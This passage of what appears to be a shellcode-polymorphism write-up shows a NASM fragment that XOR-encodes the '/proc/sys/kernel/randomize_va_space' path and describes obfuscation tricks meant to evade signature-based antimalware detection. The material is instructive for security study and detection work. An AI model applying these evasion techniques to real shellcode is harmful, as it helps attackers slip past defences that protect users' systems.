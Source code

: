 ```nasm
mov al, 0x01
int 0x80                    ; make exit(2) syscall

callsc:
call sc
encoded_bytes: db 0x6e, 0x6e, 0x31, 0x33, 0x2e, 0x22, 0x6e, 0x32, 0x38, 0x32, 0x6e, 0x2a, 0x24, 0x33, 0x2f, 0x24, 0x2d, 0x6e, 0x33, 0x20, 0x2f, 0x25, 0x2e, 0x2c, 0x28, 0x3b, 0x24, 0x1e, 0x37, 0x20, 0x1e, 0x32, 0x31, 0x20, 0x22, 0x24, 0x41

```

We'll want to get rid of the raw `/proc/sys/kernel/randomize_va_space` string as soon as possible. I keep mentioning it, but it really is a huge string of dead giveaway. I do this by encoding the string, moving it into a JMP CALL POP, and including a small decoder stub. The encoding is a simple one byte XOR on each byte of the string with a `\x41`. I also abuse loops and push pops to disguise setting syscall IDs. The opener is much more verbose as well, nulling three registers for good measure and saving two pointers. I also use typical encoding techniques for moving specific values such as flags for `open(2)` and the setup of the `0:<file_descriptor>/x00` strings. I try to make semantic changes when possible. The point being to defeat pattern matching for specific shellcode payloads, we want th leave 'no stone unturned', or I suppose, no byte unchanged if possible.

## Conclusions

You might notice that these shellcodes look kind of like a mess. Fortunately, that's sort of the point. The shorter common strings of bytes are between our polymorphized shellcodes and the originals, the less opportunities that a signature for one will find the other. The vast majority of antimalware engines are signature based. They can only find what they already know about, and by doing this we do serious harm to their ability to detect us.   

  
